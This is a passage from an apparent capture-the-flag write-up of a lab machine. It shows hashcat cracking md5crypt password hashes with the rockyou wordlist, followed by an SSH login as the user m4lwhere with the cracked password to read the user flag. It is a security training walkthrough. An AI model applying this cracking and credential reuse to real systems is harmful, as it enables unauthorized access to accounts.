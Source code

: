 ```bash
* Keyspace..: 14344385

$1$🧂llol$uXqzPW6SXUONt.AIOBqLy.:admin
...
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:REDACTED

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 500 (md5crypt, MD5 (Unix), Cisco-IOS $1$ (MD5))
Hash.Target......: hash.txt
Time.Started.....: Sun Aug 28 07:45:29 2022 (5 mins, 1 sec)
Time.Estimated...: Sun Aug 28 07:50:30 2022 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#2.........:    24630 H/s (7.65ms) @ Accel:32 Loops:1000 Thr:1 Vec:8
Recovered........: 2/2 (100.00%) Digests
Progress.........: 7413312/14344385 (51.68%)
Rejected.........: 0/7413312 (0.00%)
Restore.Point....: 7413120/14344385 (51.68%)
Restore.Sub.#2...: Salt:0 Amplifier:0-1 Iteration:0-1000
Candidate.Engine.: Device Generator
Candidates.#2....: iloveconnor1 -> ilovecoalcat08
Hardware.Mon.#2..: Util: 98%

Started: Sun Aug 28 07:45:26 2022
Stopped: Sun Aug 28 07:50:31 2022
```

The password was cracked. I used it to connect back to the server as the `m4lwhere` user and read the user flag.

```bash
$ ssh m4lwhere@target
m4lwhere@target's password:
Welcome to Ubuntu 18.04.5 LTS (GNU/Linux 4.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Aug 28 11:51:48 UTC 2022

  System load:  0.0               Processes:           181
  Usage of /:   50.2% of 4.85GB   Users logged in:     0
  Memory usage: 23%               IP address for eth0: 10.129.95.185
  Swap usage:   0%


0 updates can be applied immediately.


Last login: Fri Jun 18 01:09:10 2021 from 10.10.10.5

m4lwhere@previse:~$ ls
user.txt

m4lwhere@previse:~$ cat user.txt
REDACTED
```
